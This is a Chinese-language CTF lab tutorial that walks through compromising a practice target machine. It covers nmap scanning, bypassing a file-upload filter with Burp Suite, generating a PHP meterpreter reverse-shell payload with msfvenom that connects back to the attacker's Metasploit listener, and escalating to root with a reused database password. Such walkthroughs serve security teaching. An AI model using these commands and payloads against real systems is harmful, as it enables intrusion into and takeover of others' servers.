










# CTF夺旗赛教程：P24：26.CTF综合测试

## 概述
在本节课中，我们将学习如何对一个存在安全漏洞的Web应用程序进行完整的渗透测试。我们将从信息收集开始，逐步利用文件上传漏洞，绕过安全过滤机制，上传Web Shell，最终获取服务器的最高控制权（root权限），并找到目标Flag值。整个过程将涉及多种安全工具和漏洞利用技术。

## 实验环境介绍
在开始之前，我们先明确实验环境。
*   **攻击机IP地址**：`192.168.253.12`
*   **靶机IP地址**：`192.168.253.13`

我们的最终目标是获取靶机的root权限，并找到Flag。



## 第一步：信息收集与探测
渗透测试的第一步是对目标进行信息收集。我们需要了解靶机开放了哪些服务及其版本信息，这有助于我们发现潜在的漏洞。



以下是使用Nmap工具进行扫描的常用命令：
```bash
nmap -sV 192.168.253.13
```
这条命令会扫描靶机开放的服务及其版本。

为了获取更全面的信息，我们可以使用Nmap的“全面扫描”模式：
```bash
nmap -A -T4 -v 192.168.253.13
```
*   `-A`：启用操作系统检测、版本检测、脚本扫描和路由跟踪。
*   `-T4`：指定扫描速度，T4为较快速度。
*   `-v`：显示详细输出。



通过扫描，我们能够发现靶机上运行的Web服务、数据库服务等关键信息，为后续攻击提供方向。

## 第二步：发现并利用文件上传漏洞
上一节我们介绍了如何使用信息收集来定位目标。本节中，我们来看看如何利用已发现的文件上传点。

在之前的测试中，我们通过模糊测试登录到系统后台，并找到了一个文件上传功能。我们发现该功能允许上传图片文件（如`.jpg`），但会阻止直接上传`.php`脚本文件。





为了执行恶意代码，我们需要绕过这个上传过滤机制。我们将使用Burp Suite工具来拦截和修改上传请求。



以下是具体操作步骤：
1.  在浏览器中配置代理，指向Burp Suite。
2.  将一个PHP文件（例如`shell.php`）重命名为`shell.jpg`，以伪装成图片文件。
3.  在Burp Suite中开启代理拦截功能。
4.  在网页端上传`shell.jpg`文件。
5.  Burp Suite会截获上传请求数据包。我们在数据包中找到文件名部分，将其从`shell.jpg`改回`shell.php`。
6.  将修改后的数据包转发给服务器。



如果服务器仅检查文件扩展名而不验证文件内容，这种方法通常能成功绕过过滤，将PHP文件上传到服务器。

## 第三步：生成并上传Web Shell
成功绕过上传过滤后，我们需要上传一个真正的Web Shell，以便在服务器上执行命令并建立反向连接。





这需要两个终端协同工作：
1.  **在攻击机上启动监听器**：等待靶机连接回来。
2.  **生成并上传Web Shell**：一个包含反向连接代码的PHP文件。

首先，我们在攻击机的Kali Linux中使用Metasploit框架启动一个监听器。Metasploit是一个集成了渗透测试、漏洞利用和后期报告等多种功能的强大框架。

以下是启动监听器的命令序列：
```bash
msfconsole
use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set LHOST 192.168.253.12
set LPORT 4444
exploit
```
*   `LHOST`：设置监听器的IP地址（即攻击机IP）。
*   `LPORT`：设置监听的端口号。

接着，我们使用`msfvenom`命令生成一个PHP格式的Web Shell：
```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.253.12 LPORT=4444 -f raw > shell.php
```
生成后，需要检查`shell.php`文件内容，确保没有多余的注释符影响代码执行。可以使用文本编辑器（如`gedit`）打开并清理文件。

然后，重复第二步的绕过上传流程，将这个`shell.php`文件（重命名为`shell.jpg`后）上传到靶机。

## 第四步：获取反向Shell与权限提升
上传Web Shell后，我们通过浏览器访问该文件的URL来触发它。如果一切正常，攻击机上的Metasploit监听器会接收到一个来自靶机的反向连接，并提供一个Meterpreter会话。

在Meterpreter会话中，我们可以执行系统命令。首先检查当前用户权限：
```bash
shell
id
```
通常，Web Shell初始获得的权限是Web服务运行的用户（如`www-data`），并非最高权限。

为了完全控制靶机，我们需要进行**权限提升**。我们尝试利用之前信息收集阶段发现的敏感信息。例如，在网站根目录下发现了一个数据库配置文件`config.php`。

查看该文件内容，可能会发现数据库连接信息，包括用户名和密码：
```php
// config.php 示例内容
$db_host = 'localhost';
$db_user = 'root';
$db_pass = 'asd123***';
$db_name = 'testdb';
```

我们尝试使用这些凭据来连接数据库，并查找更多信息。有时，数据库用户的密码可能与系统用户的密码相同或存在关联。

通过数据库查询，我们可能找到系统用户的密码哈希或明文密码。然后，在获得的Shell中尝试切换用户：
```bash
su - root
# 输入从数据库中找到的密码
```
如果密码正确，我们就成功将权限提升到了`root`。

另一种情况是，如果当前用户拥有`sudo`权限，也可以尝试使用`sudo`命令来执行特权操作。

## 总结与核心要点
本节课中，我们一起学习了对一个Web靶机进行完整渗透测试的流程。

我们首先通过Nmap进行信息收集，然后利用文件上传漏洞，使用Burp Suite绕过前端过滤，成功上传Web Shell。接着，利用Metasploit框架建立反向连接，获得初始立足点。最后，通过挖掘到的数据库敏感信息（密码），成功将权限提升至`root`，从而完全控制了目标服务器。

通过本小节的讲解，我们需要在以后的学习中掌握以下两点核心思路：
1.  **熟练掌握工具与漏洞**：必须熟练使用如Nmap、Burp Suite、Metasploit等安全工具，并理解SQL注入、文件上传绕过等常见漏洞的利用方式。
2.  **清晰的渗透测试流程**：渗透测试是一个逐步深入的过程。从信息收集开始，利用漏洞获取初始访问权限，然后进行内部探测，寻找敏感信息（如配置文件、数据库密码），最终通过这些信息提升权限，达成最终目标（获取root权限或找到Flag）。



在CTF比赛或实际安全测试中，务必牢记最终目标：获取系统的最高控制权并找到关键凭证（Flag）。